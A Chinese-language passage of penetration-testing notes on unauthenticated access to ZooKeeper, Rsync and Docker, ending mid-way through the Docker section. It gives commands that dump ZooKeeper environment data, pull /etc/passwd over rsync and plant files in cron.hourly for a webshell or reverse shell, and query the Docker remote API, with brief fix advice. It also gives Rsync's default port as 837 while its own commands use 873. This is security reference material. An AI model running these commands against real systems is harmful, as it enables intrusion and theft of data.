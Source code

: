 ## Zookeeper未授权访问

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境

1、验证

```bash
echo envi|nc 目标IP 2181
```

2、防护建议

- 添加认证
- 限制内网访问

## Rsync 未授权访问漏洞

Rsync（remote synchronize）是一个远程数据同步工具，可通过 LAN/WAN 快速同步多台主机间的文件，也可以同步本地硬盘中的不同目录。Rsync 默认允许匿名访问，默认端口837。

1、漏洞利用

```bash
#列举整个同步目录或指定目录：
rsync rsync://172.16.2.250:873/src

#下载文件或目录到本地：
rsync rsync://172.16.2.250:873/src/etc/passwd ./

#上传本地文件到服务端：
rsync -av nc rsync://172.16.2.250:873/src/etc/cron.hourly

#上传的文件可以直接是webshell或crontab反弹shell
```

2、修复建议

- 添加认证
- 限制IP访问

## Docker未授权访问

> docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker

1、验证

```bash
docker -H tcp://10.1.1.211:2375 version

#列出容器信息
curl http://<target>:2375/containers/json
```

2、漏洞利用，反弹宿主机shell

新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

